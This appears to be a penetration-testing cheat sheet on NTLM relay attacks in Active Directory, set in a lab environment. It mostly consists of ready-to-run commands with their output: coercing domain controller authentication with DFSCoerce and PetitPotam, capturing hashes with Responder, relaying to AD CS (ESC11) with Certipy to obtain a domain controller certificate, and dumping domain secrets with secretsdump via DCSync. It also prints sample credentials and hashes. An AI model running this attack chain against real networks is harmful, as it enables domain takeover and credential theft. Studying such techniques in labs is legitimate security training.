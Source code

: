 # NTLM\_Relaying

### **DFSCoerce**

Documentation: [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

### MS-DFSNM DFSCoerce

* DFSCoerce abuses the NetrDfsAddStdRoot and NetrDfsRemoveStdRoot methods of Distributed File System (DFS):
* Namespace Management Protocol (MS-DFSNM);
* (DFSCoerce does not seem capable of coercing HTTP NTLM authentication)
* https://github.com/Wh04m1001/DFSCoerce

```
python3 dfscoerce.py -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' 172.16.117.30 172.16.117.3 
[-] Connecting to ncacn_np:172.16.117.3[\PIPE\netdfs] 
[+] Successfully bound! 
[-] Sending NetrDfsRemoveStdRoot! NetrDfsRemoveStdRoot ServerName: '172.16.117.30\x00' RootShare: 'test\x00' ApiFlags: 1
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

#### Responder

* don't forget to start responder so you can capture the ntlm credential

```
[SMB] NTLMv2-SSP Client : 172.16.117.3 
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\DC01$ 
[SMB] NTLMv2-SSP Hash : DC01$::INLANEFREIGHT:e2d2339638fc5fd6:D4979A923DD76BC3CFA418E94958E2B0:010100000000000000E0550D97C<SNIP>
```

### **ESC11**

#### ESCALATION 11

#### NTLM Relay to AD CS ICRP Endpoints

* https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/
  * Good research showing how to take advantage of this issue
* `IF_ENFORCEENCRYPTICERTREQUEST` enforces the encryption of certificate enrollment requests between a client and the CA; The client must encrypt any certificate request it sends to the CA.
* If the CA does not have the flag `IF_ENFORCEENCRYPTICERTREQUEST` set, unencrypted sessions (think relaying coerced SMB NTLM authentication over HTTP) can be used for certificate enrollment.

#### LINUX

#### Find vulnerable servers with Certipy

```
certipy find -u blwasp -p 'Password123!' -dc-ip 172.16.19.3 -vulnerable -stdout 
ESC11 : Encryption is not enforced For ICPR requests and Request Disposition is set to Issue
```

#### Abusing ESC11 with Certipy

```
sudo certipy relay -target "rpc://172.16.19.5" -ca "lab-WS01-CA" -template DomainController
```

#### Coerce authentication with PetitPotam

```
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 172.16.19.19 172.16.19.3 
Trying pipe lsarpc 
[-] Connecting to ncacn_np:172.16.19.3[\PIPE\lsarpc] 
[+] Connected! 
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e 
[+] Successfully bound! 
[-] Sending EfsRpcOpenFileRaw! 
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED! 
[+] OK! Using unpatched function! 
[-] Sending EfsRpcEncryptFileSrv! 
[+] Got expected ERROR_BAD_NETPATH exception!! 
[+] Attack worked!
```

* Certipy receiving Authentication from LAB-DC$

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[] Targeting rpc://172.16.19.5 (ESC11) 
[] Listening on 0.0.0.0:445 
[] Connecting to ncacn_ip_tcp:172.16.19.5[135] to determine ICPR stringbinding 
[] Attacking user 'LAB-DC$@DC' 
[] Requesting certificate For user 'LAB-DC$' with template 'DomainController' 
[] Requesting certificate via RPC 
[] Successfully requested certificate 
[] Request ID is 13 
[] Got certificate with DNS Host Name 'lab-dc.lab.local' 
[] Certificate has no object SID 
[] Saved certificate and private key to 'lab-dc.pfx' 
[] Exiting...`
```

* Request a TGT as the Domain Controller

```
certipy auth -pfx lab-dc.pfx
```

* Perform DCSync using the TGT as the Domain Controller

```
KRB5CCNAME=lab-dc.ccache impacket-secretsdump -k -no-pass lab-dc.lab.local
```

* Perform DCSync using the NT Hash as the Domain Controller

```
secretsdump.py 'lab-dc$'@lab-dc.lab.local -hashes :9815073c5e5e718994c4791201f2d93e
```

